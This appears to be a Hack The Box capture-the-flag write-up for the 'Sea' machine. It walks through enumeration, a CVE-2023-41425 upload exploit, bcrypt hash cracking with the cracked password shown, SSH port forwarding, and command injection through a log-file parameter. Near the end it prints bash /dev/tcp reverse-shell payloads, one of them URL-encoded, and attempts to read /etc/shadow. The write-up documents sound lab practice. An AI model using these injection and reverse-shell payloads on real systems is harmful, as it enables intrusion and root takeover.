 # Sea

<details>
<summary><strong>Summary</strong></summary>
The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<summary><strong>What I Learned</strong></summary>
<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>
</details>

#### Not quite a Bordereau

I had the commands and information saved before I started thinkgin about posting these on github. In the future there is more detail, but when I did this, it was more of a brain dump and less of a conscious effort to provide a detailed writeup.

## Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o jetty.txt`

Find a registration page on the machine

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled  
 • `DocumentRoot category in Directory`  
 • `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`
![alt text](image.png)

Cannot access root/monitoring file, but can set up port forward and access it
![alt text](image-1.png)

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)  
 • `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic  
 • `curl <IP>/random_text`

Check to see if you can inject php code into log file  
 • Set up a proxy and use it to try to run a command  
 ○ KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`  
 • Intercept it with Burp, change to a more suspicious command agent

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-5.png)

Try to get other files  
 • `/root/root.txt`  
 • `/etc/passwd`  
 • `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
 • `log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

![alt text](image-4.png)
